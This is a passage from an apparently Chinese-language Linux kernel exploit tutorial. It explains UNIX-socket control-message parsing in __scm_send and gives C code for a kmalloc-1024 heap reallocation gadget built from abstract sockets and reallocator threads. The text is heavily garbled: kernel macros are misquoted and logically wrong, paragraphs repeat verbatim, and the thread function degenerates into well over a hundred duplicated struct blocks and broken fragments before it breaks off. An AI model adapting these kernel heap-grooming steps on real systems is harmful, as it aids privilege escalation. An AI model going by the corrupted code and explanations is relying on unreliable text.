    struct sock_inode *kiocb = kiocb(kiocb);
    struct sock sk = sock->sk;

    // ... (很多声明) ...

    if (NULL)
        siocbm->scm = &tmp_scm;
    wait_for_unix_sk(sk, msg); // 这里
    err = sock_send(sk, msg, siocb->scm, false);
    if (err < 0)
        return err;

    // ...
}
```

我们已经在上一篇文章中传递过这个，但现在有些不同了：

```c
static __inline_ int sock_send(struct socket *sk, struct msghdr *msg, bool forcedcred)
{
    struct sock_cred *scm = ccm(sk); 
    memset(scm, 0, sizeof(scm));
    if (forcedcred)
        scm_set_cred(scm, task_tgid(current), current_cred());
    if (unix_get_creds(scm, msg->msg_control <= 0)) // ---- 这不再成立了
        return 0;
    return sock_send(sk, msg, scm);
}
```


让我们明确实际的数据信息结构：

```
struct cmsghdr {
    kernel_size_t cmsg_len;  /* 数据字节数，包括头部长度 */
    int cmsg_level;           /* 起始协议 * */
    int cmsg_type;            /* 协议特定类型 */
};
```

这是一个 16 字节的结构，位于我们的 "cmsg_control" 缓冲区（包含数据的缓冲区）的开头。它的用法通常取决于套字类型。例如，在 UNIX 中，它可以通过套字传递“凭据”（credentials）。

控制消息缓冲区（cmsg_control）可以包含一个或多个控制消息。每个控制消息由一个头部和数据组成。

第一个控制消息通过 CMSG_FIRSTHDR(msg) 识别：

```
#define CMSG_FIRSTHDR(msg)    __CMSG_FIRSTHDR(len) <= sizeof(struct cmsghdr) ? \
    (struct cmsghdr*)(msg) != NULL : NULL
```

也就是说，它检查 msg_control 中的长度是否大于 16 字节。如果是，则意味着控制消息缓冲区不包含控制头部。在这种情况下，它返回 NULL。否则，它返回第一个控制消息的起始地址（即 msg_control）。

为了找到下一个控制消息，使用 CMSG_NEXTHDR(hdr) 来获取下一个控制消息头部的地址：

```
#define CMSG_NEXTHDR(hdr, cmsg)    cmsg_nxthdr(hdr), (cmsg))
static inline struct cmsg_nxthdr(void *_ctl, kernel_size_t _size) {
    struct cmsghdr *ptr = (struct cmsghdr*)((unsigned char *)cmsg) + CMSG_ALIGN(cmsg->cmsg_len));
    if ((unsigned long)(char *)(ptr-1) - (char *)_ctl) > _size)
        return NULL;
    return ptr;
}
```

这看起来并没有那么复杂！它基本上是获取当前控制消息头部的地址，并加上当前控制消息大小中的 cmsg_len（对于整个消息缓冲区，如果有必要的话）。如果“下一个头部”不属于整个消息缓冲总大小的一部分，则意味着没有更多头部了，它会返回 NULL。否则，返回计算出的指针（即下一个头部）。

注意！有一个健全性检查宏 CMSG_OK(msg, hdr)，用于检查当前控制消息的大小（即 cmsg_len）是否大于控制消息缓冲区：

最后，让我们来看一下

```
#define CMSG_OK(hdr, cmsg)    ((cmsg)->cmsg_len >= sizeof(struct cmsghdr)) && \
    (cmsg)->cmsg_len <= (unsigned long) \
    ((char *)cmsg) - (char *)hdr->msg_control))
```

好了，现在让我们来看看 _scm_send(i)，看看它是如何对控制消息进行一些用操作的：

```
int __scm_send(struct socket sock, struct msghdr *msg, struct sccm_cookie *p) {
  struct cmgshdr *cmsg;
  int err;
  for (cmsg = MSG_FIRSTHDR(msg); cmsg; cmsg = MSG_NXTHHDR(msg, cmsg)) {
    err = -EINVAL;
    if (CMSG_OK(msg, cmsg))
      goto err;
    if (cmsg->cmsg_level != SOL_SOCKET)
      continue;
    // ... cut (跳过的代码) ...
    // ... cut ...
    return 0;
  }
err:
  scm_destroy(msg);
  return err;
}
```

我们的目标是让 __scm_send() 返回 0 [3]。因为 **msg-controller** 是我们重新分配的大小（即 1024），我们进入了循环 [0]（即 MSG_FIRSTHDR(msg) != NULL）。
由于这个原因，**第一个消息控制器头部**中的值应该是有效的。然后，通过设置一个与 SOL_SOCKET 不同的值（即控制头部的大小），头部将是合法的。我们可以跳过循环 [2]。也就是说，下一个消息头部将是 **MSG_NXTHDR(i)**。如果 **msg_len 等于 msg_len**，则它返回 NULL。否则，返回计算出的指针（即下一个头部）。

注意！有一个健全性检查宏 CMSG_OK(msg, hdr)，用于检查当前控制消息的大小（即 cmsg_len）是否大于控制消息缓冲区：

## 可能出现什么错误？

它基本上是获取当前控制消息头部的地址，并加上当前控制消息大小中的 cmsg_len（对于整个消息缓冲区，如果有必要的话）。如果“下一个头部”不属于整个消息缓冲区总大小的一部分，则意味着没有更多头部了，它会返回 NULL。否则，返回计算出的指针（即下一个头部）。

注意！有一个健全性检查宏 CMSG_OK(msg, hdr)，用于检查当前控制消息的大小（即 cmsg_len）是否大于控制消息缓冲区：

最后，让我们来看一下

```
#define CMSG_OK(hdr, cmsg)    ((cmsg)->cmsg_len >= sizeof(struct cmsghdr)) && \
    (cmsg)->cmsg_len <= (unsigned long) \
    ((char *)cmsg) - (char *)hdr->msg_control))
```

好了，现在让我们来看看 _scm_send(i)，看看它是如何对控制消息进行一些用处操作的：

```
int __scm_send(struct socket sock, struct msghdr *msg, struct sccm_cookie *p) {
  struct cmgshdr *cmsg;
  int err;
  for (cmsg = MSG_FIRSTHDR(msg); cmsg; cmsg = MSG_NXHDR(msg, cmsg)) {
    err = -EINVAL;
    if (CMSG_OK(msg, cmsg))
      goto err;
    if (cmsg->cmsg_level != SOL_SOCKET)
      continue;
    // ... cut (跳过的代码) ...
    // ... cut ...
    return 0;
  }
err:
  scm_destroy(msg);
  return err;
}
```

我们的目标是让 __scm_send() 返回 0 [3]。因为 **msg-controller** 是我们重新分配的大小（即 1024），我们进入了循环 [0]（即 MSG_FIRSTHDR(msg) != NULL）。
由于这个原因，**第一个消息控制器头部**中的值应该是有效的。然后，通过设置一个与 SOL_SOCKET 不同的值（即控制头部的大小），头部将是合法的。我们可以跳过循环 [2]。也就是说，下一个消息头部将是 **MSG_NXTHDR(i)**。如果 **msg_len 等于 msg_len**，则它返回 NULL。否则，返回计算出的指针（即下一个头部）。

注意！有一个健全性检查宏 CMSG_OK(msg, hdr)，用于检查当前控制消息的大小（即 cmsg_len）是否大于控制消息缓冲区：

最后，让我们来看一下

```
#define CMSG_OK(hdr, cmsg)    ((cmsg)->cmsg_len >= sizeof(struct cmsghdr)) && \
    (cmsg)->cmsg_len <= (unsigned long) \
    ((char *)cmsg) - (char *)hdr->msg_control))
```

好了，现在让我们来看看 _scm_send(i)，看看它是如何对控制消息进行一些用处操作的：

``````
int __scm_send(struct socket sock, struct msghdr *msg, struct sccm_cookie *p) {
  struct cmgdrdr *cmsg;
  int err;
  for (cmsg = MSG_FIRSTHDR(msg); cmsg; cmsg = MSG_NXTHHDR(msg, cmsg)) {
     = = -VAL;;
     ( (C__msg,,,))
))

;
    
 (cmsg->cmsg_level != SOL_SOCKET)
      
;
    
 // ... cut (skipped code) ...
    // ... cut ...
    return 0;
  }
err:
  scm_destroy(msg);
  return err;
}
```

我们的目标是让 __scm_send() 返回 0 [3]。因为 **msg-controller** 是我们重新分配的大小（i.i, 1024），我们进入了循环 [0]（i.i. MSG_FIRSTHDR(msg) != NULL）。
由于这个原因，**第一个消息控制器头部**中的值应该是有效的。然后，通过设置一个与 SOL_SOCKET 不同的值（即控制头部的大小），头部将是合法的。我们可以跳过循环 [2]。也就是说，下一个消息头部将是 **MSG_NXTHDR(i)**。如果 **msg_len 等于 msg_len**，则它返回 NULL。否则，返回计算出的指针（即下一个头部）。


```c
static bool can_realloc_gadget(void) {
  int fd;
  int ret;
  bool usable = false;
  char buf[32];

  if ((fd = open("/proc/sys/core/optmemmax", O_RDONLY)) < 0) {
    perror("[-] open");
    // TODO: fail to syscall; try it anyway or not ?
    return false;
  }

  memset(buf, 0, sizeof(buf));
  if ((ret = read(fd, buf, sizeof(buf))) <= 0) {
    perror("[-] read");
    goto out;
  }
  printf("[] optmem_max = %s", buf);

  if (atoi(buf) > 512) // only test if we can use kmalloc-1024 cache
    usable = true;
  }

out:
  close(fd);
  return usable;
}
```

下一步是准备控制消息缓冲区。请注意 `g_realloc_data` 是全局定义的，因此我们可以访问它。正确的 `cmsg` 消息字段如下：

```c
#define KMALLOC_TARGET 1024
static volatile char g_realloc_data[KMALLOC_TARGET];
static int init_realloc_data(void) {
  struct cmsghdr *first;
  memset(g_realloc_data, 0, sizeof(g_realloc_data));

  // necessary to pass checks in _scmsg_send();
  first = (struct cmsghdr*)g_realloc_data;
  first->msg_len = sizeof(g_realloc_data);
  first->msg_level = 0; // must be different from SOL_SOCKET to "skip" cmsg
  first->msg_type = 1; // <-- ARBITRARY VALUE

  // TODO: do something useful the remaining bytes (i.e. canary call)
  return 0;
}
```

由于我们使用 `AF_UNIX` 套字进行重新分配，我们需要为重分配线程创建一对套字。在这里，我们创建了一种特殊的 unix 套字：抽象套字（man 7）。它们的地址包含一个 NULL 字节（在 netstat 中显示为 '@'）。这并不是强制性的，但是一种偏好。发送端套字连接到接收端套字，最后，我们使用 `setsockopt()` 将超时值设置为 `MAX_SCHEDULE_TIMEOUT`。

```c
struct realloc_thread;
struct pthread_tid;
int recv_fd;
int send_fd;
struct sockaddr_un addr;
};

static int init_unix_sockets(struct realloc_thread_arg *rta) {
    struct timeval tv;
    static int sock_counter = 0;

    if (((rta->recv_fd = socket(AF_UNIX, SOCK_DGRAM, 0)) < 0) ||
        (rta->send_fd = socket(AF_UNIX, SOCK_DGRAM, 0)) < 0) {
        perror("[-] socket");
        goto fail;
    }

    // bind an "abstract" socket (first byte is NULL)
    memset(&rta->addr, 0, sizeof(rta->addr));
    rta->addr.sun_family = AF_UNIX;
    sprintf(rta->addr.sun_path, "%s%d", getpid(), ++sock_counter);
    if (bind((struct sockaddr*)&rta->addr, sizeof(rta->addr)) < 0) {
        perror("[-] bind");
        goto fail;
    }

    if (connect(rta->send_fd, (struct sockaddr*)&rta->addr, (size_t)sizeof(rta->addr)) < 0) {
        perror("[-] connect");
        goto fail;
    }

    // set the timeout value to MAX_SCHEDULE_TIMEOUT
    memset(&tv, 0, sizeof(tv));
    if (setsockopt(rta->recv_fd, SOL_SOCKET, SO_SNDTIMED, &tv, (size_t)sizeof(tv)) < 0) {
        perror("[-] setsockopt");
        goto fail;
    }

    return 0;

fail:
    // TODO: release everything
    printf("[-] failed to initialize UNIX sockets!\n");
    return -1;
}
```

重分配线程通过 `init_reallocation()` 初始化：

```c
static int init_reallocation(struct realloc_thread *rta, size_t nb_reallocs) {
    int thread = 0;
    int ret = -1;

    if (!can_use_realloc_gadget()) {
        printf("[+] can't use the 'ancillary buffer' gadget!\n");
        goto fail;
    }
    printf("[+] can use the 'ancillary buffer' gadget!\n");

    if (!init_realloc_gadget()) {
        printf("[-] failed to initialize data!\n");
        goto fail;
    }

    printf("[+] reallocation data initialized!\n");

    printf("[+] initializing threads, please wait...\n");
    for (thread = 0; thread < nb_reallocs; ++thread) {
        if (init_unix_sockets(rta)) {
            printf("[-] failed to initialize sockets!\n");
            goto fail;
        }

        if ((ret = pthread_create(&rta[thread].tid, NULL, realloc_thread, rta)) != 0) {
            perror("[-] pthread_create");
            goto fail;
        }

        // wait until all threads have been created
        while (g_realloc_thread < nb_reallocs) {
            sched_yield(); // don't run me, run the reallocator threads!
        }
    }

    printf("[+] %lu reallocation ready!\n", nb_reallocs);
    return 0;

fail:
    printf("[-] failed to initialize reallocation\n");
    return -1;
}
```

一旦启动，重分配线程将通过 `MSG_DONTWAIT`（即非阻塞）向接收缓冲区大量填充数据来准备发送端套字，然后阻塞直到收到“大开始”信号（即重新分配）：

```c
static volatile_t g_nb_realloc_thread = 0;
static volatile_t g_realloc_now = 0;

static void realloc_thread(void *arg) {
    struct realloc_thread *rta = (struct realloc_thread*)arg;
    struct msghdr mhdr;
    char buf[200];

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = =(buf),
    


    //// m m
    
 i i iov = = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize m m

     i i i iov = {
                .. = =,

iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr


 iov i i
     {

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    // m m i
     = i
 iov.base =
,
.base.len =
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
 
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
 
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
 
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
                .base = buf,
                .len = =(buf),
    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
 
    //     mhdr
    
 iov iov = {
        
.base = buf,
        
.len = = = =),
    

    //

     m
 m    
    struct iov = { = {
         =.base = buf,
        len.len = sizeof(buf),
        

    // initialize m    
    struct iov iov = {
        
.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
                .base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct i i i i = {


.. = =,


.len = = =bufbuf

    
    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
    struct iov iov = {
        iov.base = buf,
        
.len = sizeof(buf),
    };

    // initialize m

    struct iov iov = {
        
.base = buf,
        
.len = sizeof(buf),
    


    //
 m m
    
 i i i i = =


... = =,


.. = =((


         m


 i i i iov = {
        iov.base = buf,
        iov.len = sizeof(buf),
    };

    // initialize mhdr
